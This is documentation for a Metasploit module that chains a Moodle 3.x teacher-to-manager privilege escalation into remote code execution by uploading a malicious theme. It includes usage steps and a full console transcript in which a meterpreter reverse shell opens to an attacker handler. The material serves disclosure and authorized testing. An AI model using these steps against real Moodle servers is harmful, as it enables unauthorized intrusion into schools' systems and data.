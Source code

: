## Vulnerable Application

Moodle version 3.9, 3.8 to 3.8.3, 3.7 to 3.7.6, 3.5 to 3.5.12 and earlier unsupported versions
allow for a teacher to exploit chain to RCE.  A bug in the privileges system allows a teacher
to add themselves as a manager to their own class. They can then add any other users, and thus
look to add someone with manager privileges on the system (not just the class).  After
adding a system manager, a 'loginas' feature is used to access their account.  Next the system
is reconfigured to allow for all users to install an addon/plugin.  Then a malicious theme
is uploaded and creates an RCE.

If all of that is a success, we revert permissions for managers to system default and
remove our malicoius theme.  Manual cleanup to remove students from the class is required.

This module was tested against Moodle version 3.9

### Install

Moodle provides a step by step guide to install their software.  However you'll want to use
`3.9.0` instead of `3.11.0`.
[here](https://docs.moodle.org/311/en/Step-by-step_Installation_Guide_for_Ubuntu)

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploits/multi/http/moodle_teacher_enrollment_priv_esc_to_rce`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a shell.

## Options

### MAXUSERS

The amount of users to add to the class in hopes of finding a manager. Defaults to `100`.

### Password

Password of a teacher.

### Username

Username of a teacher.

## Scenarios

### Moodle 3.9.0 on Ubuntu 20.04

```
resource (moodle_privesc.rb)> use exploit/multi/http/moodle_teacher_enrollment_priv_esc_to_rce
[*] Using configured payload php/meterpreter/reverse_tcp
resource (moodle_privesc.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (moodle_privesc.rb)> set targeturi /moodle-3.9.0/
targeturi => /moodle-3.9.0/
resource (moodle_privesc.rb)> set username teacher
username => teacher
resource (moodle_privesc.rb)> set password Teacherteacher1!
password => Teacherteacher1!
resource (moodle_privesc.rb)> set lhost eth0
lhost => eth0
resource (moodle_privesc.rb)> set MAXUSERS 10
MAXUSERS => 10
resource (moodle_privesc.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable Moodle version 3.9 detected
[*] Authenticating as user: teacher
[*] Retrieving user info
[+] User ID: 4
[+] Course ID: 2
[+] Sessionkey: R1lSAKDT73
[*] Retrieving course enrollment id
[+] Enrol ID: 1
[*] Attempting to enrolin in class as manager (priv esc)
[+] Successfully enrolled
[*] Attempting to find and add a manager to class
[*] Attempting user: 2
[+] Successfully enrolled
[*] Attempting user: 3
[+] Successfully enrolled
[*] Attempting user: 4
[+] Successfully enrolled
[*] Attempting user: 5
[+] Successfully enrolled
[*] Attempting user: 6
[-] Unsuccessful
[*] Attempting user: 7
[-] Unsuccessful
[*] Attempting user: 8
[-] Unsuccessful
[*] Attempting user: 9
[-] Unsuccessful
[*] Retrieving course context id
[+] Context ID: 28
[+] Found manager user IDs: ["5", "4"]
[*] Attempting loginas for user id: 5
[*] Logged in as: manager manager
[+] Looks like a potentially good manager account!
[*] Attempting via new session key: gUocfkXDpe
[*] Checking if permissions were set successfully
[+] Manager roll full permissioned, attempting to upload shell
[*] Creating plugin named: mbdzduot with poisoned header: PIYB
[*] Uploading addon
[+] Upload Successful.  Integrating addon
[*] Triggering payload
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:56418) at 2021-09-04 13:21:51 -0400
[*] Uninstalling plugin
[*] Resetting permissions

meterpreter > sysinfo
Computer    : moodle
OS          : Linux moodle 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data (33)
```
